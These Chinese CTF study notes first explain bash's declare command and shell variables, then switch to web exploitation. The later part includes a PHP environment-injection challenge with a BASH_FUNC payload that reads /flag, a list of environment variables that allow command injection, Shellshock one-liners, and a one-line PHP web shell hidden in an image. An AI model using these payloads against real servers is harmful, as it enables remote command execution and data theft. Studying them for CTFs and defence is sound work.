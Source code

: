 **导出成用户变量**的shell变量

declare命令可以明确进行变量类型的声明。

declare [+/-] [变换选项] 变量名

shell默认是字符串型，如果需要加减乘除，需要定义为整型

declare命令：改变默认变量的类型

-给变量设定类型属性

+取消变量类型属性

-a声明为数组类型

-i声明为整型

-x 将变量设置为环境变量 相当于export命令 declare -x test=123（export是简化命令。最终执行的是declare -x命令）

-r 讲变量声明为只读变量

-p 显示指定变量的被声明的类型

每个shell有自己特有的变量（set）显示的变量，这个和用户变量是不同的，当前用户变量和你用什么shell无关，不管你用什么shell都在，比如HOME，SHELL等这些变量，但shell自己的变量不同shell是不同的，比如BASH_ARGC，BASH等，这些变量只有set才会显示，是bash特有的，export不加参数的时候，显示哪些变量被导出成了用户变量，因为一个shell自己的变量可以通过export “导出”变成一个用户变量。

前面学过Shell是一个弱类型的语言，默认情况下给变量赋什么值都是字符串型，不能直接进行数值运算。declare命令可以明确进行变量类型的声明。

```php
<?php

$env = $_GET['env'];
if(isset($env)){
    putenv($env);
    system("whoami");
}else{
    highlight_file(__FILE__);
}
```

php system执行的是 sh -c

 `env=BASH_FUNC_whoami%%=() { cat /flag; }`

- `BASH_ENV`：可以在`bash -c`的时候注入任意命令
- `ENV`：可以在`sh -i -c`的时候注入任意命令
- `PS1`：可以在`sh`或`bash`交互式环境下执行任意命令
- `PROMPT_COMMAND`：可以在`bash`交互式环境下执行任意命令
- `BASH_FUNC_xxx%%`：可以在`bash -c`或`sh -c`的时候执行任意命令

### 破壳漏洞

以上

- shellshock漏洞:`TEST=(){:;};id;`,`env 'TEST=(){:;};id' bash -c "echo Hello"`
- bash4.4之前:`env $'BASH_FUNC_echo()=(){id;}' bash -c "echo hello"`
- 4.4之后:`env $'BASH_FUNC_echo()%%=(){id;}' bash -c "echo hello"`

## 图片马

``<?=`$_GET[1]`;;?>``

严格限制了图片类型，不仅需要通过getimagesize,还要比对mine信息，最后还要进行base64解码

图片位置在`/Users/dionysus/CTF/文件上传/web814base64.jpg`

## 命令注入长度限制绕过

### 15字符

